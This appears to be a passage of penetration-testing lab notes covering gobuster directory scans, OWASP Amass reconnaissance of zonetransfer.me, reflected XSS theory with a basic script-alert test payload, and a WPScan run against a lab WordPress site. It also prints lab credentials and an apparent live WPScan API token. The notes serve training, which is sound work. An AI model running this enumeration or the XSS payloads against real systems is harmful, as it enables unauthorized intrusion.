2024/06/14 15:25:52 Finished
===============================================================
```

Run the gobuster scan while ignoring the 403 and 404 status codes.

`gobuster dir -u http://192.99.108.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404`:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:                     http://192.171.142.3
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404 ←
[+] User Agent:              gobuster/3.0.1
[+] Timeout:                 10s
===============================================================
2024/06/14 16:18:28 Starting gobuster
===============================================================
/.git/HEAD (Status: 200)
/ajax (Status: 301)
/classes (Status: 301)
/config (Status: 301)
/data (Status: 301)
/documentation (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/index.php (Status: 200)
/LICENSE (Status: 200)
/passwords (Status: 301)
/phpmyadmin (Status: 301)
/phpinfo.php (Status: 200)
/robots.txt (Status: 200)
/styles (Status: 301)
/test (Status: 301)
/webservices (Status: 301)
===============================================================
2024/06/14 16:18:30 Finished
===============================================================
```

Run the gobuster scan while ignoring 403,404 status code files/directories and run the scan to find the specific file extensions (.php, .xml, .txt).

`gobuster dir -u http://192.99.108.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r`:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:                     http://192.171.142.3
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.0.1
[+] Extensions:              txt,xml,php ←
[+] Follow Redir:            true ←
[+] Timeout:                 10s
===============================================================
2024/06/14 16:19:33 Starting gobuster
===============================================================
/.git/HEAD (Status: 200)
/ajax (Status: 200)
/classes (Status: 200)
/config (Status: 200)
/credits.php (Status: 500)
/data (Status: 200)
/documentation (Status: 200)
/home.php (Status: 500)
/images (Status: 200)
/includes (Status: 200)
/installation.php (Status: 200)
/index.php (Status: 200)
/index.php (Status: 200)
/javascript (Status: 200)
/LICENSE (Status: 200)
/login.php (Status: 500)
/page-not-found.php (Status: 200)
/passwords (Status: 200)
/phpinfo.php (Status: 200)
/phpinfo.php (Status: 200)
/phpmyadmin (Status: 200)
/phpmyadmin.php (Status: 200)
/register.php (Status: 500)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/styles (Status: 200)
/test (Status: 200)
/webservices (Status: 200)
===============================================================
2024/06/14 16:19:41 Finished
===============================================================
```

`-r` flag is used to specify to follow any redirects or 302 status code pages.

Run the gobuster to scan `/data` directory while ignoring the 403 and 404 status code
pages/directories. Find the files with the extensions such as .php, .xml, .txt.

`gobuster dir -u http://192.99.108.3/data -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r`:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:                     http://192.171.142.3/data ←
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.0.1
[+] Extensions:              txt,xml,php
[+] Follow Redir:            true
[+] Timeout:                 10s
===============================================================
2024/06/14 16:22:33 Starting gobuster
===============================================================
/accounts.xml (Status: 200) ←
===============================================================
2024/06/14 16:22:41 Finished
===============================================================
```

Found an accounts.xml file inside the `/data` directory.

Navigate to the accounts.xml file and check its contents.

`wget http://192.99.108.3/data/accounts.xml, `cat accounts.xml`:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xml>
<Employees>
	<Employee ID="1">
		<UserName>admin</UserName>
		<Password>adminpass</Password>
		<Signature>g0t r00t?</Signature>
		<Type>Admin</Type>
	</Employee>
	<Employee ID="2">
		<UserName>adrian</UserName>
		<Password>somepassword</Password>
		<Signature>Zombie Films Rock!</Signature>
		<Type>Admin</Type>
	</Employee>
	<Employee ID="3">
		<UserName>john</UserName>
		<Password>monkey</Password>
		<Signature>I like the smell of confunk</Signature>
		<Type>Admin</Type>
	</Employee>
	<Employee ID="4">
		<UserName>jeremy</UserName>
		<Password>password</Password>
		<Signature>d1373 1337 speak</Signature>
		<Type>Admin</Type>
	</Employee>
	<Employee ID="5">
		<UserName>bryce</UserName>
		<Password>password</Password>
		<Signature>I Love SANS</Signature>
		<Type>Admin</Type>
	</Employee>
	<Employee ID="6">
		<UserName>samurai</UserName>
		<Password>samurai</Password>
		<Signature>Carving fools</Signature>
		<Type>Admin</Type>
	</Employee>
	<Employee ID="7">
		<UserName>jim</UserName>
		<Password>password</Password>
		<Signature>Rome is burning</Signature>
		<Type>Admin</Type>
	</Employee>
</Employees>
```

### Automated Web Reconnaissance (with OWASP Amass) - Theory/Lab

**OWASP Amass**

[OWASP Amass](https://github.com/owasp-amass/amass) is an advanced open-source tool for network mapping and external asset discovery. It is widely used in reconnaissance during penetration testing and security assessments to identify and map out an organization’s external footprint. Amass is known for its ability to gather extensive DNS information and map out the attack surface of a target.

**Purpose of OWASP Amass**

1. **External Asset Discovery**: Amass helps in identifying and mapping external assets associated with a domain, including subdomains, IP addresses, and other network-related information.
2. **Security Assessments**: It aids security professionals in understanding the scope of an organization’s external presence, which is crucial for vulnerability assessments and penetration testing.
3. **Network Mapping**: The tool provides a comprehensive map of an organization’s external network infrastructure, highlighting potential entry points and vulnerabilities.

**Key Features and Capabilities**

1. **Subdomain Enumeration**:
    - **Description**: Amass excels at discovering subdomains through various techniques, including brute-forcing, DNS scraping, and API integrations.
    - **Use Case**: Useful for identifying all subdomains associated with a target domain, which can reveal additional attack vectors.

2. **Passive and Active Reconnaissance**:
    - **Description**: Amass combines both passive methods (using public sources) and active methods (interacting with target systems) to gather information.
    - **Use Case**: Ensures a comprehensive reconnaissance process by leveraging multiple data sources and techniques.

3. **Graph Database Integration**:
    - **Description**: Amass can integrate with graph databases like Neo4j to store and visualize the collected data, providing a clear and structured view of the network relationships.
    - **Use Case**: Helps in visualizing complex network infrastructures and identifying key connections and dependencies.

4. **Integration with Other Tools**:
    - **Description**: Amass can integrate with various third-party APIs and tools to enhance its data collection capabilities.
    - **Use Case**: Extends the functionality and accuracy of reconnaissance by incorporating data from multiple sources.

5. **Comprehensive Reporting**:    
    - **Description**: Generates detailed reports and visualizations that summarize the findings, making it easier to analyze and act upon the collected data.
    - **Use Case**: Facilitates better understanding and communication of the network’s external footprint and potential security issues.

**Using OWASP Amass**

#### Lab Solution

`amass --help`:
```
        .+++:.            :                             .+++.
      +W@@@@@@8        &+W@#               o8W8:      +W@@@@@@#.   oW@@@W#+
     &@#+   .o@##.    .@@@o@W.o@@o       :@@#&W8o    .@#:  .:oW+  .@#+++&#&
    +@&        &@&     #@8 +@W@&8@+     :@W.   +@8   +@:          .@8
    8@          @@     8@o  8@8  WW    .@W      W@+  .@W.          o@#:
    WW          &@o    &@:  o@+  o@+   #@.      8@o   +W@#+.        +W@8:
    #@          :@W    &@+  &@+   @8  :@o       o@o     oW@@W+        oW@8
    o@+          @@&   &@+  &@+   #@  &@.      .W@W       .+#@&         o@W.
     WW         +@W@8. &@+  :&    o@+ #@      :@W&@&         &@:  ..     :@o
     :@W:      o@# +Wo &@+        :W: +@W&o++o@W. &@&  8@#o+&@W.  #@:    o@+
      :W@@WWWW@@8       +              :&W@@@@&    &W  .o#@@W&.   :W@WWW@@&
        +o&&&&+.                                                    +oooo.

                                                                      v4.2.0
                                           OWASP Amass Project - @owaspamass
                         In-depth Attack Surface Mapping and Asset Discovery


Usage: amass intel|enum [options]

  -h    Show the program usage message
  -help
        Show the program usage message
  -version
        Print the version number of this Amass binary


Subcommands: 

        amass intel - Discover targets for enumerations
        amass enum  - Perform enumerations and network mapping ←                  
```

`amass enum --help`:
```
        .+++:.            :                             .+++.
      +W@@@@@@8        &+W@#               o8W8:      +W@@@@@@#.   oW@@@W#+
     &@#+   .o@##.    .@@@o@W.o@@o       :@@#&W8o    .@#:  .:oW+  .@#+++&#&
    +@&        &@&     #@8 +@W@&8@+     :@W.   +@8   +@:          .@8
    8@          @@     8@o  8@8  WW    .@W      W@+  .@W.          o@#:
    WW          &@o    &@:  o@+  o@+   #@.      8@o   +W@#+.        +W@8:
    #@          :@W    &@+  &@+   @8  :@o       o@o     oW@@W+        oW@8
    o@+          @@&   &@+  &@+   #@  &@.      .W@W       .+#@&         o@W.
     WW         +@W@8. &@+  :&    o@+ #@      :@W&@&         &@:  ..     :@o
     :@W:      o@# +Wo &@+        :W: +@W&o++o@W. &@&  8@#o+&@W.  #@:    o@+
      :W@@WWWW@@8       +              :&W@@@@&    &W  .o#@@W&.   :W@WWW@@&
        +o&&&&+.                                                    +oooo.

                                                                      v4.2.0
                                           OWASP Amass Project - @owaspamass
                         In-depth Attack Surface Mapping and Asset Discovery


Usage: amass enum [options] -d DOMAIN ←

  -active
        Attempt zone transfers and certificate name grabs
  -addr value
        IPs and ranges (192.168.1.1-254) separated by commas
  -alts
        Enable generation of altered names
  -asn value
        ASNs separated by commas (can be used multiple times)
  -aw value
        Path to a different wordlist file for alterations
  -awm value
        "hashcat-style" wordlist masks for name alterations                                                               
  -bl value                                                                                                               
        Blacklist of subdomain names that will not be investigated                                                        
  -blf string                                                                                                             
        Path to a file providing blacklisted subdomains                                                                   
  -brute ←                                                                                                                 
        Execute brute forcing after searches                                                                              
  -cidr value                                                                                                             
        CIDRs separated by commas (can be used multiple times)                                                            
  -config string                                                                                                          
        Path to the YAML configuration file. Additional details below                                                     
  -d value ←                                                                                                               
        Domain names separated by commas (can be used multiple times)                                                     
  -demo                                                                                                                   
        Censor output to make it suitable for demonstrations                                                              
  -df value                                                                                                               
        Path to a file providing root domain names                                                                        
  -dir string ←                                                                                                            
        Path to the directory containing the output files                                                                 
  -dns-qps int                                                                                                            
        Maximum number of DNS queries per second across all resolvers                                                     
  -ef string                                                                                                              
        Path to a file providing data sources to exclude                                                                  
  -exclude value                                                                                                          
        Data source names separated by commas to be excluded                                                              
  -h    Show the program usage message                                                                                    
  -help                                                                                                                   
        Show the program usage message                                                                                    
  -if string                                                                                                              
        Path to a file providing data sources to include                                                                  
  -iface string                                                                                                           
        Provide the network interface to send traffic through                                                             
  -include value                                                                                                          
        Data source names separated by commas to be included                                                              
  -list                                                                                                                   
        Print the names of all available data sources                                                                     
  -log string                                                                                                             
        Path to the log file where errors will be written                                                                 
  -max-depth int                                                                                                          
        Maximum number of subdomain labels for brute forcing                                                              
  -max-dns-queries int                                                                                                    
        Deprecated flag to be replaced by dns-qps in version 4.0                                                          
  -min-for-recursive int                                                                                                  
        Subdomain labels seen before recursive brute forcing (Default: 1) (default 1)                                     
  -nf value                                                                                                               
        Path to a file providing already known subdomain names (from other tools/sources)                                 
  -nocolor                                                                                                                
        Disable colorized output                                                                                          
  -norecursive                                                                                                            
        Turn off recursive brute forcing                                                                                  
  -o string                                                                                                               
        Path to the text file containing terminal stdout/stderr                                                           
  -oA string                                                                                                              
        Path prefix used for naming all output files                                                                      
  -p value                                                                                                                
        Ports separated by commas (default: 80, 443)                                                                      
  -passive ←                                                                                                               
        Deprecated since passive is the default setting ←                                                                   
  -r value                                                                                                                
        IP addresses of untrusted DNS resolvers (can be used multiple times)                                              
  -rf value                                                                                                               
        Path to a file providing untrusted DNS resolvers                                                                  
  -rqps int                                                                                                               
        Maximum number of DNS queries per second for each untrusted resolver                                              
  -scripts string                                                                                                         
        Path to a directory containing ADS scripts                                                                        
  -silent                                                                                                                 
        Disable all output during execution                                                                               
  -timeout int                                                                                                            
        Number of minutes to let enumeration run before quitting                                                          
  -tr value                                                                                                               
        IP addresses of trusted DNS resolvers (can be used multiple times)                                                
  -trf value                                                                                                              
        Path to a file providing trusted DNS resolvers                                                                    
  -trqps int                                                                                                              
        Maximum number of DNS queries per second for each trusted resolver                                                
  -v    Output status / debug / troubleshooting info                                                                      
  -w value                                                                                                                
        Path to a different wordlist file for brute forcing                                                               
  -wm value                                                                                                               
        "hashcat-style" wordlist masks for DNS brute forcing
```

**Perform Passive Reconnaissance**

`mkdir ~/Desktop/ztme_recon_passive/`

`amass enum -d zonetransfer.me -passive`:
```
onetransfer.me (FQDN) --> mx_record --> aspmx4.googlemail.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> alt1.aspmx.l.google.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> aspmx5.googlemail.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> aspmx2.googlemail.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> aspmx3.googlemail.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> aspmx.l.google.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> alt2.aspmx.l.google.com (FQDN)
zonetransfer.me (FQDN) --> ns_record --> nsztm1.digi.ninja (FQDN)
zonetransfer.me (FQDN) --> ns_record --> nsztm2.digi.ninja (FQDN)

The enumeration has finished
```

`amass enum -d zonetransfer.me -passive -dir ~/Desktop/ztme_recon_passive/`:
```
zonetransfer.me (FQDN) --> a_record --> 5.196.105.14 (IPAddress)
5.196.0.0/16 (Netblock) --> contains --> 5.196.105.14 (IPAddress)
16276 (ASN) --> managed_by --> OVH (RIROrganization)
16276 (ASN) --> announces --> 5.196.0.0/16 (Netblock)
zonetransfer.me (FQDN) --> mx_record --> aspmx3.googlemail.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> aspmx5.googlemail.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> alt1.aspmx.l.google.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> aspmx2.googlemail.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> aspmx.l.google.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> alt2.aspmx.l.google.com (FQDN)
zonetransfer.me (FQDN) --> mx_record --> aspmx4.googlemail.com (FQDN)
zonetransfer.me (FQDN) --> ns_record --> nsztm1.digi.ninja (FQDN)
zonetransfer.me (FQDN) --> ns_record --> nsztm2.digi.ninja (FQDN)

The enumeration has finished
```

**Perform Brute Force Reconnaissance**

`mkdir ~/Desktop/ztme_recon_brute/`

`amass enum -d zonetransfer.me -brute -dir ~/Desktop/ztme_recon_brute/`:
```
zonetransfer.me (FQDN) --> ns_record --> nsztm1.digi.ninja (FQDN)
zonetransfer.me (FQDN) --> ns_record --> nsztm2.digi.ninja (FQDN)

The enumeration has finished
```

**Perform Active Intel Gathering**

`mkdir ~/Desktop/ztme_recon_intel/`

`amass intel --help`:
```
        .+++:.            :                             .+++.
      +W@@@@@@8        &+W@#               o8W8:      +W@@@@@@#.   oW@@@W#+
     &@#+   .o@##.    .@@@o@W.o@@o       :@@#&W8o    .@#:  .:oW+  .@#+++&#&
    +@&        &@&     #@8 +@W@&8@+     :@W.   +@8   +@:          .@8
    8@          @@     8@o  8@8  WW    .@W      W@+  .@W.          o@#:
    WW          &@o    &@:  o@+  o@+   #@.      8@o   +W@#+.        +W@8:
    #@          :@W    &@+  &@+   @8  :@o       o@o     oW@@W+        oW@8
    o@+          @@&   &@+  &@+   #@  &@.      .W@W       .+#@&         o@W.
     WW         +@W@8. &@+  :&    o@+ #@      :@W&@&         &@:  ..     :@o
     :@W:      o@# +Wo &@+        :W: +@W&o++o@W. &@&  8@#o+&@W.  #@:    o@+
      :W@@WWWW@@8       +              :&W@@@@&    &W  .o#@@W&.   :W@WWW@@&
        +o&&&&+.                                                    +oooo.

                                                                      v4.2.0
                                           OWASP Amass Project - @owaspamass
                         In-depth Attack Surface Mapping and Asset Discovery


Usage: amass intel [options] [-whois -d DOMAIN] [-addr ADDR -asn ASN -cidr CIDR]

  -active ←
        Attempt certificate name grabs
  -addr value
        IPs and ranges (192.168.1.1-254) separated by commas
  -asn value
        ASNs separated by commas (can be used multiple times)
  -cidr value                                                                                                             
        CIDRs separated by commas (can be used multiple times)                                                            
  -config string                                                                                                          
        Path to the YAML configuration file. Additional details below                                                     
  -d value ←                                                                                                               
        Domain names separated by commas (can be used multiple times)                                                     
  -demo                                                                                                                   
        Censor output to make it suitable for demonstrations                                                              
  -df value                                                                                                               
        Path to a file providing root domain names                                                                        
  -dir string ←                                                                                                            
        Path to the directory containing the output files                                                                 
  -ef string                                                                                                              
        Path to a file providing data sources to exclude                                                                  
  -exclude value                                                                                                          
        Data source names separated by commas to be excluded                                                              
  -h    Show the program usage message                                                                                    
  -help                                                                                                                   
        Show the program usage message                                                                                    
  -if string                                                                                                              
        Path to a file providing data sources to include                                                                  
  -include value                                                                                                          
        Data source names separated by commas to be included                                                              
  -ip ←                                                                                                                    
        Show the IP addresses for discovered names                                                                        
  -ipv4                                                                                                                   
        Show the IPv4 addresses for discovered names                                                                      
  -ipv6                                                                                                                   
        Show the IPv6 addresses for discovered names                                                                      
  -list                                                                                                                   
        Print additional information                                                                                      
  -log string                                                                                                             
        Path to the log file where errors will be written                                                                 
  -max-dns-queries int                                                                                                    
        Maximum number of concurrent DNS queries                                                                          
  -o string                                                                                                               
        Path to the text file containing terminal stdout/stderr                                                           
  -org string                                                                                                             
        Search string provided against AS description information                                                         
  -p value                                                                                                                
        Ports separated by commas (default: 80, 443)                                                                      
  -r value                                                                                                                
        IP addresses of preferred DNS resolvers (can be used multiple times)                                              
  -rf value                                                                                                               
        Path to a file providing preferred DNS resolvers                                                                  
  -timeout int                                                                                                            
        Number of minutes to let enumeration run before quitting                                                          
  -v    Output status / debug / troubleshooting info                                                                      
  -whois ←                                                                                                                 
        All provided domains are run through reverse whois
```

`amass intel -d zonetransfer.me -active -whois -dir ~/Desktop/ztme_recon_intel/`:
```
digi.ninja
digininja.org
```

**Generate Reports for Reconnaissance Data**

`amass viz -dir ~/Desktop/ztme_recon_passive/ -d`

`amass viz -dir ~/Desktop/ztme_recon_passive/ -d3`

`amass viz -dir ~/Desktop/ztme_recon_passive/ -dot`

---

## Cross-Site Scripting (XSS) Vulnerabilities

### Identifying and Exploiting Reflected XSS Vulnerabilities - Theory/Lab

**Reflected XSS (Cross-Site Scripting)** occurs when user input is immediately reflected back to the user without proper sanitization or encoding. This allows attackers to inject malicious scripts into web pages viewed by other users.

**How Reflected XSS Works**

1. **User Input**: The attacker injects a malicious script into a URL or form field.
2. **Immediate Reflection**: The server processes this input and sends it back in the response without proper sanitization.
3. **Script Execution**: When the user opens the manipulated URL or interacts with the form, the malicious script executes in their browser, leading to potential data theft, session hijacking, or other malicious activities.

Reflected XSS is typically executed via:
- **Phishing Emails**: An attacker sends a crafted link to a user, tricking them into clicking it.
- **Search Queries**: Malicious payloads injected into search forms that reflect the input back to the user.
- **Error Messages**: Misconfigured web applications that include user input in error messages.

**Impact of Reflected XSS**

- **Data Theft**: Stealing cookies, session tokens, or other sensitive information.
- **Session Hijacking**: Taking control of user sessions.
- **Defacement**: Altering the appearance of web pages.
- **Phishing**: Redirecting users to malicious sites that appear legitimate.

Identifying and exploiting reflected XSS vulnerabilities involves the following steps:
1. **Input Fields Testing**: Test all input fields (e.g., forms, search bars) for XSS by injecting common payloads like `<script>alert(1)</script>`.
2. **URL Parameters**: Check URL parameters by modifying them with XSS payloads to see if the input is reflected in the response.
3. **Response Analysis**: Analyze the server's response to identify where and how the input is reflected.
4. **Context Testing**: Test the input in various contexts (e.g., within HTML, JavaScript, CSS) to understand how it affects the output.
5. **Crafting Payloads**: Create more complex payloads that can bypass any existing filters or sanitization mechanisms.

#### Lab Environment

**WP Relevanssi plugin XSS**

In this exercise, the attacker has admin access already so there is nothing more to be done. However, looks like the admin access does lead to an XSS attack. So you can try to find this XSS as purely academic exercise.

[WordPress](https://wordpress.org/) is a free and open source full-featured CMS for hosting blogs and web portals. It is based on PHP and MySQL. It is one of the most popular CMS.

**WordPress Relevanssi Plugin** (4.0.4) is vulnerable to a Reflected Cross Site Scripting documented in [CVE-2018-9034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9034). 

The following username and passwords may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "admin"
- Password: "password1"

**Objective**: Your task is to find and exploit this vulnerability.

[CVE](http://cve.mitre.org/about/termsofuse.html) is a registered trademark of The MITRE Corporation.

#### Lab Solution

**WPScan**

[WPScan](https://github.com/wpscanteam/wpscan) is a free, open-source security scanner designed specifically for WordPress websites, used to identify potential vulnerabilities within WordPress installations. WPScan helps security professionals and website administrators ensure the security of their WordPress sites by detecting common security issues.

**Purpose of WPScan**

1. **Vulnerability Detection**: WPScan scans WordPress websites to detect known vulnerabilities in the core software, plugins, and themes.
2. **Information Gathering**: It collects information about the target WordPress installation, such as installed themes, plugins, and user details.
3. **Security Auditing**: Helps administrators conduct regular security audits to maintain the security posture of their WordPress sites.
4. **Compliance**: Assists in meeting security compliance requirements by identifying and mitigating security risks.

**Key Features of WPScan**

1. **Core Vulnerability Scanning**: Checks the WordPress core for known vulnerabilities.
2. **Plugin and Theme Scanning**: Detects vulnerabilities in installed plugins and themes.
3. **User Enumeration**: Identifies user accounts to highlight potential points of attack.
4. **Configuration Checks**: Examines the WordPress configuration for security best practices.
5. **Version Detection**: Determines the WordPress version to identify specific vulnerabilities related to that version.

**Using WPScan**

`wpscan --help`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

Usage: wpscan [options]
        --url URL                                 The URL of the blog to scan
                                                  Allowed Protocols: http, https
                                                  Default Protocol if none provided: http
                                                  This option is mandatory unless update or help or hh or version is/are supplied
    -h, --help                                    Display the simple help and exit
        --hh                                      Display the full help and exit
        --version                                 Display the version and exit
    -v, --verbose                                 Verbose mode
        --[no-]banner                             Whether or not to display the banner
                                                  Default: true
    -o, --output FILE                             Output to FILE
    -f, --format FORMAT                           Output results in the format supplied
                                                  Available choices: cli, cli-no-colour, cli-no-color, json
        --detection-mode MODE                     Default: mixed
                                                  Available choices: mixed, passive, aggressive
        --user-agent, --ua VALUE
        --random-user-agent, --rua                Use a random user-agent for each scan
        --http-auth login:password
    -t, --max-threads VALUE                       The max threads to use
                                                  Default: 5
        --throttle MilliSeconds                   Milliseconds to wait before doing another web request. If used, the max threads will be set to 1.
        --request-timeout SECONDS                 The request timeout in seconds
                                                  Default: 60
        --connect-timeout SECONDS                 The connection timeout in seconds
                                                  Default: 30
        --disable-tls-checks                      Disables SSL/TLS certificate verification, and downgrade to TLS1.0+ (requires cURL 7.66 for the latter)
        --proxy protocol://IP:port                Supported protocols depend on the cURL installed
        --proxy-auth login:password
        --cookie-string COOKIE                    Cookie string to use in requests, format: cookie1=value1[; cookie2=value2]
        --cookie-jar FILE-PATH                    File to read and write cookies
                                                  Default: /tmp/wpscan/cookie_jar.txt
        --force                                   Do not check if the target is running WordPress or returns a 403
        --[no-]update                             Whether or not to update the Database
        --api-token TOKEN                         The WPScan API Token to display vulnerability data, available at https://wpscan.com/profile
        --wp-content-dir DIR                      The wp-content directory if custom or not detected, such as "wp-content"
        --wp-plugins-dir DIR                      The plugins directory if custom or not detected, such as "wp-content/plugins"
    -e, --enumerate [OPTS] ←                      Enumeration Process
                                                  Available Choices:
                                                   vp   Vulnerable plugins
                                                   ap   All plugins
                                                   p    Popular plugins ←
                                                   vt   Vulnerable themes
                                                   at   All themes
                                                   t    Popular themes
                                                   tt   Timthumbs
                                                   cb   Config backups
                                                   dbe  Db exports
                                                   u    User IDs range. e.g: u1-5
                                                        Range separator to use: '-'
                                                        Value if no argument supplied: 1-10
                                                   m    Media IDs range. e.g m1-15
                                                        Note: Permalink setting must be set to "Plain" for those to be detected
                                                        Range separator to use: '-'
                                                        Value if no argument supplied: 1-100
                                                  Separator to use between the values: ','
                                                  Default: All Plugins, Config Backups
                                                  Value if no argument supplied: vp,vt,tt,cb,dbe,u,m
                                                  Incompatible choices (only one of each group/s can be used):
                                                   - vp, ap, p
                                                   - vt, at, t
        --exclude-content-based REGEXP_OR_STRING  Exclude all responses matching the Regexp (case insensitive) during parts of the enumeration.
                                                  Both the headers and body are checked. Regexp delimiters are not required.
        --plugins-detection MODE                  Use the supplied mode to enumerate Plugins.
                                                  Default: passive
                                                  Available choices: mixed, passive, aggressive
        --plugins-version-detection MODE ←        Use the supplied mode to check plugins' versions.
                                                  Default: mixed
                                                  Available choices: mixed, passive, aggressive ←
        --exclude-usernames REGEXP_OR_STRING      Exclude usernames matching the Regexp/string (case insensitive). Regexp delimiters are not required.
    -P, --passwords FILE-PATH                     List of passwords to use during the password attack.
                                                  If no --username/s option supplied, user enumeration will be run.
    -U, --usernames LIST                          List of usernames to use during the password attack.
                                                  Examples: 'a1', 'a1,a2,a3', '/tmp/a.txt'
        --multicall-max-passwords MAX_PWD         Maximum number of passwords to send by request with XMLRPC multicall
                                                  Default: 500
        --password-attack ATTACK                  Force the supplied attack to be used rather than automatically determining one.
                                                  Multicall will only work against WP < 4.4
                                                  Available choices: wp-login, xmlrpc, xmlrpc-multicall
        --login-uri URI                           The URI of the login page if different from /wp-login.php
        --stealthy                                Alias for --random-user-agent --detection-mode passive --plugins-version-detection passive

[!] To see full list of options use --hh.
```

`wpscan --url https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/ --enumerate p --plugins-detection aggressive --api-token c3zsEAKSXSWyR34mAQiYDQqkQDKkPjIjloMTaL12DcTM`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/ [104.237.146.253]
[+] Started: Tue Jun 18 06:49:54 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - server: Apache/2.4.7 (Ubuntu)
 |  - x-powered-by: PHP/5.5.9-1ubuntu4.25
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |
 | [!] 84 vulnerabilities identified:
 |
 | [!] Title: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
 |     References:
 |      - https://wpscan.com/vulnerability/b3f2f3db-75e4-4d48-ae5e-d4ff172bc093
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295
 |      - https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html
 |      - https://blog.dewhurstsecurity.com/2017/05/04/exploitbox-wordpress-security-advisories.html
 |      - https://core.trac.wordpress.org/ticket/25239
 |
 | [!] Title: WordPress < 5.4.2 - Disclosure of Password-Protected Page/Post Comments
 |     Fixed in: 4.8.14
 |     References:
 |      - https://wpscan.com/vulnerability/eea6dbf5-e298-44a7-9b0d-f078ad4741f9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25286
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/c075eec24f2f3214ab0d0fb0120a23082e6b1122
 |
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 |     Fixed in: 4.8.16
 |     References:
 |      - https://wpscan.com/vulnerability/6a3ec618-c79e-4b9c-9020-86b157458ac5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29450
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pmmh-2f36-wvhq
 |      - https://core.trac.wordpress.org/changeset/50717/
 |      - https://www.youtube.com/watch?v=J2GXmxAdNWs
 |
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 |     Fixed in: 4.8.17
 |     References:
 |      - https://wpscan.com/vulnerability/4cd46653-4470-40ff-8aac-318bee2f998d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36326
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19296
 |      - https://github.com/WordPress/WordPress/commit/267061c9595fedd321582d14c21ec9e7da2dcf62
 |      - https://wordpress.org/news/2021/05/wordpress-5-7-2-security-release/
 |      - https://github.com/PHPMailer/PHPMailer/commit/e2e07a355ee8ff36aba21d0242c5950c56e4c6f9
 |      - https://www.wordfence.com/blog/2021/05/wordpress-5-7-2-security-release-what-you-need-to-know/

[+] WordPress theme in use: twentyseventeen
 | Location: https://kmgv2cd4z1rez4qkb7q6ns846.us-east-6.attackdefensecloudlabs.com/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-04-02T00:00:00.000Z
